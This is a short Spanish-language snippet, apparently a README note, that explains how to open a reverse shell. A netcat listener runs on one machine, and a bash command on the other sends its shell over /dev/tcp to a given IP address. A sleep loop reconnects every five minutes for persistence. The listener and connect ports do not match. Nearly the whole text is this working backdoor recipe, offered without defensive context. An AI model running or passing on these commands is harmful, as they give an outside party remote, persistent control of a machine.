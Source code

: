 En una máquina (cliente) abrimos un puerto con netcat:
nc -kl 3000


En la máquina (servidor) donde van a ser ejecutados los comandos
exec bash >& /dev/tcp/10.26.236.136/7337 0>&1
while sleep 300; do exec bash >& /dev/tcp/ip.address/port.number 0>&1; done


Cuando el cliente escriba comandos en su netcat, le contestará el bash del servidor
